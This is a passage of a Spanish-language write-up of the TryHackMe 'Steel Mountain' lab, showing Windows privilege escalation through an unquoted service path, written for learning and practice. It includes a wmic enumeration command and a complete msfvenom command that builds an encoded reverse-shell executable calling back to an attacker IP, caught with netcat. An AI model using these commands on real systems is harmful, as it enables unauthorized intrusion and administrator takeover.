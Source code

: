 ![](/assets/images/thm-steelmountain/24.JPG)

Podemos realizar esta busqueda de directorios con la vulnerabilidad Unquoted Service Path, con la herramienta CVE - 2020-15261.

Utilizamos el comando -> wmic service get name,displayname,pathname,startmode |findstr /i
"auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

El programa busca binarios que no sean de windows por defecto y que no tenga comillas en las rutas.

![](/assets/images/thm-steelmountain/25.JPG)

Vemos que en el directorio C:\Program Files (x86)\IObit (El usuario Bill Nos indica la W de write , tenemos permisos de escritura así que nuevamente vamos a generar el archivo malicioso utilizando msfvenom y subiendolo a la maquina victima con sbm.

msfvenom -> msfvenom -p windows/shell_reverse_tcp LHOST=10.9.8.85 LPORT=4455 -f exe -e x86/shikata_ga_nai -o ASCService.exe

Nos pondremos en escucha por el puerto 4455 con la interfaz de netcat y vemos que ganamos acceso como Administrador.

![](/assets/images/thm-steelmountain/26.JPG)
